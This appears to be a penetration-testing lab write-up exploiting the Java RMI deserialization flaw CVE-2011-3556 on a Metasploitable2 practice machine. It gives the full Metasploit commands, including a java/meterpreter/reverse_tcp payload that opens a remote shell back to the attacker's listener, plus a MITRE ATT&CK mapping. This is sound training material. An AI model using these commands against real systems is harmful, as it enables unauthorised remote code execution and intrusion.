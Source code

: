 # Java RMI Exploit (CVE-2011-3556)

# Summary
This exploit targets an insecure RMI registry on Metasploitable2 that accepts malicious serialized Java objects. Successful exploitation allows remote code execution.

# Tools Used
- Metasploit
- Payload: java/meterpreter/reverse_tcp

# Steps Performed

1. Launched Metasploit:
   ```bash
   msfconsole

2. Loaded module:
    use exploit/multi/misc/java_rmi_server

3. Set options:
    set RHOSTS 192.168.6.3
    set RPORT 1099
    set LHOST 192.168.6.4
    set LPORT 4445
    set PAYLOAD java/meterpreter/reverse_tcp
    run

4. Get meterpreter session:
    See screenshot

# Outcome

-Remote shell as RMI user(low privilege)

# CVE details

CVE: CVE-2011-3556

Description: Insecure deserialization in RMI registry

# MITRE ATT&CK Mapping

T1210: Exploitation of Remote Services

T1059.005: Command and Scripting Interpreter: Java